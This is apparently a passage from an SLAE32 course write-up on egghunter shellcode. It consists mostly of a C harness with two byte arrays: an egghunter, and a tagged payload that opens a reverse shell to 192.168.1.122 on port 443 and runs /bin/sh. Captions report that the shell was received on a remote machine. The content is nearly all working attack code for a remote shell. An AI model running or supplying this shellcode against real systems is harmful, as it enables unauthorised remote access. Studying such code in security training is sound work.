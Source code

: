 ```[sengen@manjaro-x86 assignment3]$ gcc shellcode.c -o shellcode```
```c
#include <string.h>
#include <stdio.h>

main()
{
    char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

    char payload[] = "\x90\x50\x90\x50\x90\x50\x90\x50\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x7a\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

### Gaining shell
**Executing shellcode program that initiates the egghunter**<br/>
<img src="{{ site.url }}/assets/img/slae32/03-01.png"/>

**Receiving shell on remote Linux machine**<br/>
<img src="{{ site.url }}/assets/img/slae32/03-02.png"/>
